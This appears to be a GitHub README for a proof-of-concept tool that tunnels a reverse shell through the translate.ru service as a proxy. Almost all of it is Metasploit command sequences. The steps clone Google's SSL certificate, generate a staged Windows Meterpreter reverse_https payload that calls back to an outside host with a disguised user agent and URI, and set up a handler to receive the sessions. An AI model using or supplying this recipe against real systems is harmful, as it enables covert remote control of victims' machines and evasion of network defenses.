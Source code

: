 # TranslateRuShell (PoC)
Web reverse shell through translate.ru as proxy

## Generate Meterpreter payload for client

### Get Cert

1. use auxiliary/gather/impersonate_ssl
2. set RHOST www.google.com
3. set Proxies http:host:port
4. run


[\*] www.google.com:443 - Connecting to www.google.com:443

[\*] www.google.com:443 - Copying certificate from www.google.com:443

/C=PortSwigger/O=PortSwigger/OU=PortSwigger CA/CN=www.google.com 

[\*] www.google.com:443 - Beginning export of certificate files

[\*] www.google.com:443 - Creating looted key/crt/pem files for www.google.com:443

[\+] www.google.com:443 - key: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_k_916621.key

[\+] www.google.com:443 - crt: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_c_554054.crt

[\+] www.google.com:443 - pem: /root/.msf4/loot/20181213121009_default_74.125.131.99_www.google.com_p_521262.pem

[\*] Auxiliary module execution completed

### Generate staged payload with cert check

1. use payload/windows/meterpreter/reverse_https
2. set LHOST video.cft-sd.xyz
3. set LPORT 443
4. set HttpUserAgent "Mozilla/5.0 (X11; Windows x86_64; rv:60.0) Gecko/20100101 Firefox/60.0"
5. set LURI /rest/api
6. set stagerverifysslcert true
7. set HANDLERSSLCERT /media/sf_Pentest/20181213120429_default_74.125.131.106_www.google.com_p_105411.pem
8. set EXITFUNC thread
9. generate -t csharp

## Configure Meterpreter handler on server
1. use exploit/multi/handler
2. set PAYLOAD windows/meterpreter/reverse_https
3. set LHOST video.cft-sd.xyz
4. set LPORT 443
5. set LURI /rest/api
6. set stagerverifysslcert true
7. set HANDLERSSLCERT /media/sf_Pentest/20181213120429_default_74.125.131.106_www.google.com_p_105411.pem
8. set EXITFUNC thread
9. set ExitOnSession false
10. exploit -j -z
